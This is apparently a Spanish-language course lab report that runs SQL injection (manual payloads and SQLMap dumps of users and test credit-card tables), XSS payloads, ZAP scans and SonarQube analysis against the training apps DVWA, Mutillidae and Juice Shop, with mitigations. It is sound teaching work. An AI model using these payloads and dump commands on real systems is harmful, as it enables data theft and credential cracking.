SQL Injection manual y automatizada, Cross-Site Scripting, escaneo dinámico (DAST) y análisis estático (SAST) sobre DVWA, Mutillidae y OWASP Juice Shop montadas en la máquina virtual vulnerable del curso. Sergio Alfredo Junca Valero.
A partir del montaje de la máquina web vulnerable, ejecute las pruebas de SQL Injection (manual y con SQLMap, incluidas las tarjetas de Mutillidae), XSS (DVWA y Juice Shop), chequeo dinámico con OWASP ZAP y análisis estático con SonarQube. Redacte el paso a paso con evidencias.
Cada herramienta prueba una capa distinta: SQLMap y los payloads manuales atacan la app corriendo (caja negra), OWASP ZAP la recorre entera buscando vulnerabilidades, y SonarQube lee el código fuente y señala el patrón inseguro con archivo y línea. El informe reúne método, resultado y el control que cierra cada hallazgo.
Las herramientas de ataque y análisis ya están instaladas y corriendo. La máquina de pruebas del curso se reemplazó por estas, instaladas en el host, apuntando a la IP de la VM vulnerable.

localhost:9000 (contenedor Docker). Login inicial admin / admin en instalación propia; en la VM del curso la clave es websecuritytesting.Dos VMs: la de pruebas (herramientas) y la web vulnerable (DVWA, Mutillidae, Juice Shop). En Apple Silicon se usan los archivos ARM.
| Procesador | Máquina de pruebas | Máquina web vulnerable |
|---|---|---|
| ARM (Apple Silicon) | websecuritytestingarm.7z | vulnerablewebappsarm.7z |
| Intel / AMD64 | websecuritytestingamd64.7z | vapps-amd64.7z |
7zz x vulnerablewebappsarm.7z # extrae el appliance VMware open *.vmx # abre en VMware Fusion
Ambas VMs en la misma red (NAT o host-only) para que se vean entre sí.
Dentro de la VM › terminal
ip a # anota la IP asignada por VMware; reemplaza <IP> en todo lo de abajo
VM de pruebas › Firefox › http://<IP>/
DVWA › login admin/password › DVWA Security: Low › SQL Injection
Consulta vulnerable del servidor en nivel Low: el parámetro se concatena sin binding.
SELECT first_name, last_name FROM users WHERE user_id = '$id'
1'
Devuelve error de sintaxis SQL: el input llega crudo a la query.
1' OR '1'='1
La condición queda siempre verdadera y devuelve todos los usuarios.
1' ORDER BY 2-- - # ok 1' ORDER BY 3-- - # error: la consulta devuelve 2 columnas
1' UNION SELECT user, password FROM users-- -
Trae usuario y hash MD5. El de admin es 5f4dcc3b5aa765d61d8327deb882cf99 (= password), crackeable por diccionario.

5f4dcc… = password.mysqli_real_escape_string y LIMIT 1, una mitigación frágil; la defensa real son consultas parametrizadas con binding.Objetivo final: extraer las tarjetas de crédito de Mutillidae. Primero el ejemplo guiado sobre DVWA, luego Mutillidae.
DVWA › User ID=1 enviado › F12 Network › copiar Cookie
URL: http://<IP>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit Cookie: PHPSESSID=xxxx; security=low
sqlmap -u "http://<IP>/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \ --cookie="PHPSESSID=xxxx; security=low" -b --current-db --current-user --batch

q de la guía, ejecución real. SQLMap detecta el motor (MariaDB), el usuario (app@localhost) y la base actual (dvwa).userssqlmap -u "..." --cookie="..." --tables -D dvwa --batch sqlmap -u "..." --cookie="..." --dump -T users -D dvwa --batch
Aparecen guestbook y users. SQLMap crackea los MD5 contra su diccionario.

r: --tables -D dvwa lista guestbook y users, tal como indica la guía.
s: el volcado con los prompts que menciona la guía (store hashes [y/N] N, crack them [Y/n/q] Y) y los 5 usuarios con sus hashes MD5 crackeados.Mutillidae › User Lookup (page=user-info.php), parámetro inyectable username
sqlmap -u "http://<IP>/mutillidae/index.php?page=user-info.php&username=1&password=1&user-info-php-submit-button=View+Account+Details" \ --cookie="PHPSESSID=xxxx" -p username -D mutillidae -T credit_cards --dump --batch
Columnas de credit_cards: ccid, ccnumber, ccv, expiration.

t (objetivo de la parte 3) con SQLMap, ejecución real sobre Mutillidae. Incluye el prompt de cookie (Do you want to use those [Y/n] Y) y el volcado de credit_cards con las 5 tarjetas. Son datos de prueba de Mutillidae, no tarjetas reales.
id, vuelca dvwa.users y crackea los hashes (password, abc123, charley, letmein).
credit_cards devuelve las 5 tarjetas (número, CVV, expiración). Son datos de prueba de Mutillidae, no tarjetas reales.WHERE username=?). Además PCI-DSS: no almacenar el PAN en claro (tokenización), nunca guardar el CVV, y cuenta de BD con menor privilegio que no pueda leer credit_cards.DVWA › DVWA Security: Low › XSS (Reflected)
<script>alert('hola');</script>La app refleja el parámetro name sin codificar: el navegador ejecuta el script y sale el alert.

xss_r/?name=<script>alert('hola');</script>, ejecuta el script y dispara el alert nativo (localhost says: hola). Ejecución real sobre DVWA (Security: Low).
<pre>Hello <script>alert('hola');</script></pre> — el payload se refleja sin escapar, por eso el navegador lo ejecuta.| Tipo | Localización | Payload |
|---|---|---|
| DOM XSS | Buscador, #/search?q= | <iframe src="javascript:alert(`xss`)"> |
| Reflejado | Seguimiento, #/track-result?id= | iframe en el parámetro id |
| Persistente/API | PUT /api/Products/:id | payload en el campo description |
| Server-side | cabecera última IP / nombre de usuario | payload que el servidor renderiza sin codificar |
El buscador es el caso canónico (Angular con bypass del sanitizador). Confirmar el total exacto en la versión de la instancia (#/about).


localhost:3000), la misma app que trae la VM del curso.Content-Security-Policy y cookies HttpOnly. En DVWA High, htmlspecialchars() corta el reflejo.terminal › zap.sh › Automated Scan › URL to attack › Attack
/Applications/ZAP.app/Contents/Java/zap.sh # abre la GUI # URL a atacar: http://<IP>:3000/ (Juice Shop)
ZAP › pestaña Alerts
Hallazgos típicos: cabeceras de seguridad ausentes (Content-Security-Policy, X-Content-Type-Options), cookie sin HttpOnly, SRI faltante, divulgación de versión, y XSS/SQLi reflejados según el spider.

zap-baseline (ZAP 2.17) sobre Juice Shop: 2 alertas Medium, 1 Informational, 93 endpoints recorridos. El HTML completo (zap-report.html) va como anexo.SonarQube › Create Project manually › Locally › Generate token
Nombre Damn Vulnerable Web Application, resto por defecto. Método de análisis: Locally.
terminal › /opt/dvwa (código fuente)
cd /opt/dvwa sonar-scanner \ -Dsonar.projectKey=Damn_Vulnerable_Web_Application \ -Dsonar.sources=. \ -Dsonar.host.url=http://localhost:9000 \ -Dsonar.login=<TOKEN>
En Issues › Security aparecen SQLi, XSS, inclusión de archivos, uso de MD5, credenciales embebidas.

git clone https://github.com/webpwnized/mutillidae.git cd mutillidae sonar-scanner -Dsonar.projectKey=mutillidae -Dsonar.sources=. \ -Dsonar.host.url=http://localhost:9000 -Dsonar.login=<TOKEN>
| Proyecto | Vulnerabilities | Security Hotspots | Bugs | Code Smells |
|---|---|---|---|---|
| DVWA | 1 (CRITICAL) | 61 | 82 | 3734 |
| Mutillidae | 1 | 116 | 349 | 4643 |
Resultados reales de SonarQube sobre el código fuente de ambos proyectos (localhost:9000).
Respuestas cortas para la defensa, con el trade-off de cada decisión.
La app construye la query concatenando el input del usuario, así que el dato se interpreta como código SQL. La corrección es separar código de datos con consultas parametrizadas (binding). Validación y WAF son capas extra, no la solución.
